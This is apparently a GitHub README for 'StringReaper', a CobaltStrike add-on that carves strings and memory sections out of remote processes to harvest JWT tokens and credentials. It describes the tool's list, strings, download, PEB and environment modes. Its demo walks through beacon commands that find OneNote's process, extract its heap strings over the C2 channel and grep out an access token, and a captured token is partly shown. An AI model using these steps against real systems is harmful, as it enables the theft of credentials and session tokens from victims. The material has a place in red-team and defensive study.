

# StringReaper 
_Reaping treasures from strings in remote process memory_


CobaltStrike BOF designed to carve strings out of remote process memory. This tool allows operators to carve ASCII and UTF-16 strings from targeted processes, making it effective for retrieving JWT tokens, credentials, and other sensitive data directly from memory. Over the past 3 years i've had great success in using this tool on engagements. Saves time when oping from a C2 where you don't want to have to wait on a full process dump or deal with download size issues.

Extracted strings are saved as ASCII in an output file. It uses [@anthemtotheego](https://x.com/anthemtotheego)'s code to download the output files to the CS `Downloads Tab`. If the target data isn't strings, the alternative `download` mode enables full memory section extraction.

Supports filtering memory regions by type (`private`, `image`, `mapped`, or `all`) and access permissions (`r`, `rw`, `rwx`, or `all`).

Also has some additional features such as:
- `list` mode
  - List the target memory sections details. Useful to make sure you don't accidently commit to downloading a massive amount of memory over the wire.
  - I use this to check before I use the `strings` or `download` modes.
- `peb` mode
  - Displays some of the remote processes PEB. Shows CLI strings, etc.
- `env` mode
  - Display all the environment strings of the remote process in the CS console stdout.

# Demo
_Below is a demo of getting JWT access tokens from the OneNote process `onenoteim.exe`_
- First find the process id for OneNote:
```
[02/07 16:44:28] beacon> ps
[02/07 16:44:29] [*] Process List
 PID   PPID  Name                                   Arch  Session     User
 ---   ----  ----                                   ----  -------     ----
 11576 740               onenoteim.exe              x64   1           SECURE\user
 ...
```
- Add the BOF to CS using the Script Console and `StringReaper.cna` aggressor script
- Use the BOF to get all the strings from read-write heap memory `private rw`:
```
[02/07 16:45:08] beacon> StringReaper 11576 strings private rw
[02/07 16:45:09] [*] started download of memstrings.bin (54784 bytes)
[02/07 16:45:09] [*] download of memstrings.bin is complete
```
- Go to downloads tab and sync the `memdump.bin` or `memstrings.bin` file


- Then view it locally with `cat`/`vi`/`more`/`less`/`grep`/etc
```bash
0xBoku@kamehameha:~/Desktop/out$ cat memstrings.bin | grep ey
ope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/"><s:Header>
<Header xmlns="http://schemas.microsoft.com/office/roamingservice">
<ClientInfo xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Office.Web.Roaming.SoapObjects"<Client>RS_ImmersiveCache</Client><ClientVersion>16.0.14326.22094</ClientVersion><Protocol>1.0</Protocol></ClientInfo></Header></s:Header><s:Body><a:WriteSettingsRequest
xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Office.Web.Roaming.SoapObjects"xmlns:a="http://schemas.microsoft.com/office/roamingservice">
<a:Identity>eyJ0eXAiOiJKV1QiLCJub25jZSI6IjNtYlJlU2FETWpBM2ZrY1B6cnBVclRBZzM1ZG1qYnFzbHVIbkZMdzdkTkUiLCJhbGciOiJSUzI1NiIsIng1dCI6IllUY2VPNUlKeXlxUjZqekRTNWlBYnBlNDJKdyIsImtpZCI6IllUY2VPNUlKeXlxUjZqekRTNWlBYnBlNDJKdyJ9.eyJhdWQiOiJo..
```

